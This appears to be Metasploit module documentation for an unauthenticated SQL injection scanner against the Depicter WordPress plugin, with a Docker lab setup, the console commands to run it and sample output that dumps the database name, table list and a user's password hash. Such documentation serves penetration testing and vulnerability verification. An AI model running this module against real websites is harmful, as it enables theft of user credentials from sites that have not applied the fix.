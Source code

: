 ## Vulnerable Application

The vulnerability affects the **Slider & Popup Builder by Depicter** plugin for WordPress,
versions **up to 3.6.1**, allowing **unauthenticated SQL injection** via the `s` parameter on `admin-ajax.php`.
WordPress itself must be installed.

### Pre-requisites

* **Docker** and **Docker Compose** installed.


## Setup Instructions

1. **Create a `docker-compose.yml`** with:

```yaml
version: '3.1'

   services:
     wordpress:
       image: wordpress:latest
       restart: always
       ports:
         - 5555:80
       environment:
         WORDPRESS_DB_HOST: db
         WORDPRESS_DB_USER: chocapikk
         WORDPRESS_DB_PASSWORD: dummy_password
         WORDPRESS_DB_NAME: exploit_market
       mem_limit: 512m
       volumes:
         - wordpress:/var/www/html

     db:
       image: mysql:5.7
       restart: always
       environment:
         MYSQL_DATABASE: exploit_market
         MYSQL_USER: chocapikk
         MYSQL_PASSWORD: dummy_password
         MYSQL_RANDOM_ROOT_PASSWORD: '1'
       volumes:
         - db:/var/lib/mysql

   volumes:
     wordpress:
     db:
```

2. **Start the environment**

```bash
docker-compose up -d
```

3. **Install Depicter plugin**

```bash
wget https://downloads.wordpress.org/plugin/depicter.3.6.1.zip
unzip depicter.3.6.1.zip
docker cp depicter wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate Depicter**

* Browse to `http://localhost:5555/wp-admin`, log in as admin (create one if needed), and activate **Slider & Popup Builder by Depicter**.
* No additional setup is required.


## Verification Steps

1. **Launch Metasploit**

```bash
msfconsole
```

2. **Load the Depicter SQLi scanner**

```bash
use auxiliary/scanner/http/wp_depicter_sqli_cve_2025_2011
set RHOSTS 127.0.0.1
set RPORT 5555
set TARGETURI /
```

3. **Run the module**

```bash
run
```

4. **Observe output**

The module should:

* Retrieve the database name
* Enumerate tables and infer the `wp_users` table
* Extract `user_login:user_pass` for the number of rows set by `COUNT`

## Options

* **TARGETURI** (`/`): base path to WordPress
* **COUNT** (`1`): number of user rows to retrieve

## Scenarios

```bash
msf6 auxiliary(scanner/http/wp_depicter_sqli_cve_2025_2011) > run http://lab:5555
[*] Retrieving database name via SQLi...
[+] Database name: exploit_market
[*] Enumerating tables for prefix inference...
[+] Tables: wp_commentmeta,wp_comments,wp_depicter_documents,wp_depicter_lead_fields,wp_depicter_leads,wp_depicter_meta,wp_depicter_options,wp_links,wp_options,wp_postmeta,wp_posts,wp_suretriggers_webhook_requests,wp_term_relationships,wp_term_taxonomy,wp_termmeta,wp_terms,wp_ur_membership_ordermeta,wp_ur_membership_orders,wp_ur_membership_subscriptio
[*] Inferred users table: wp_users
[*] Extracting user credentials...
[!] No active DB -- Credential data will not be saved!
[+] Created credential for chocapikk
wp_users
========

    Username   Password Hash
    --------   -------------
    chocapikk  $wp$2y$10$rc5oXfNPG.bYSnbYvELKZeGgoQ9.QHcAXG8U/xunfXzsviMQkiPga

[+] Loot saved to: /home/chocapikk/.msf4/loot/20250514154441_default_127.0.0.1_wordpress.users_167822.txt
[+] Reporting completed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
